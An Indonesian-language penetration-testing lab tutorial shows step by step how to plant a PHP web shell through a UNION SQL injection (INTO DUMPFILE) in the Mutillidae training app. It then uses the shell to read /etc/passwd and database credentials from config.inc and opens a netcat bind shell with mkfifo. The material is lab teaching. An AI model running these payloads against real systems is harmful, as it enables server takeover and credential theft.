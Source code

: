 ## Lesson 11 - SQL Injection Union Exploit \#4

### \# Inject Backdoor di halaman User Info

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Membuat Backdoor dengan SQL Union Injection dengan memasukan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/mutillidae/execute_command.php' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **execute_command.php**

* **Step 5** : Melihat hasil operasi dengan command berikut pada OS Metasploitable `cat /var/www/mutillidae/execute_command.php` 

### \# Menggunakan Backdoor untuk pengamatan dasar

* **Step 1** : Buka halaman php yang sudah kita buat `http://10.151.36.64/mutillidae/execute_command.php`

* **Step 2** : Masukan command linux pada textbox tersebut `whoami; pwd; w`.
**whoami** : melihat username yang digunakan
**pwd** : melihat working directory
**w** : melihar user yang sedang login dan dikerjakan

* **Step 3** : Masukan command linux pada textbox tersebut `cat /etc/passwd` dan `netstat -nao | grep "0.0.0.0:"`.
**cat /etc/passwd** : melihat informasi untuk login, dengan field antara lain Username, Password Existance, User ID, Group ID, Gecos, Home Directory, and Shell
**netstat -nao | grep "0.0.0.0:"** : melihat koneksi port yang sedang berlangsung pada ip 0.0.0.0

Terlihat ada user-user yang potensial untuk diserang seperti user apache, mysql, dll.
Terlihat ada port-port yang biasa digunakan oleh suatu service yang potensial untuk diserang seperti user apache, mysql, dll.

### \# Menggunakan Backdoor untuk pengamatan Database

* **Step 1** : Masukan command linux pada textbox tersebut `ls | grep ".inc`. Hal ini dilakukan untuk mencari file berekstensi `.inc` di directory Mutillidae, yang disasar adalah username dan password database mysql.

Terlihat terdapat file `config.inc`, file ini diduga berisi konfigurasi database mysql.

* **Step 2** : Masukan command linux pada textbox tersebut `cat config.inc | grep -v "<?php"`. Hal ini dilakukan untuk melihat file sebab jika kita tidak gunakan `grep` web tidak akan mencetak nya karena file berisi script php

Terlihat host, username, password, dan nama database dari MySQL yang digunakan web Mutillidae

### \# Menggunakan Backdoor untuk pengamatan Netcat

* **Step 1** : Masukan command linux pada textbox tersebut `which nc; netstat -nao | grep 4444 | wc -l`.
**which nc** : melihat dimana netcat berada
**netstat -nao | grep 4444 | wc -l** : melihat jumlah semua koneksi ke port 4444

* **Step 2** : Masukan command linux pada textbox tersebut `mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe`.
**mkfifo** : proses dapat saling berkomunikasi dilakukan melalui pipes. Pipes dapat dibuat dengan mengunakan perintah ini
**nc -l 4444** : meminta netcat untuk listen & allow connections di port 4444

Terlihat koneksi terus berputar hal ini manandakan port 444 sedang listen atau menunggu adanya koneksi/transfer data

* **Step 3** : Sebari langkah 2 berjalan, masukan command linux pada terminal Kali Linux `nc 10.151.36.64 4444`. Kemudian masukan command cli yang anda inginkan.












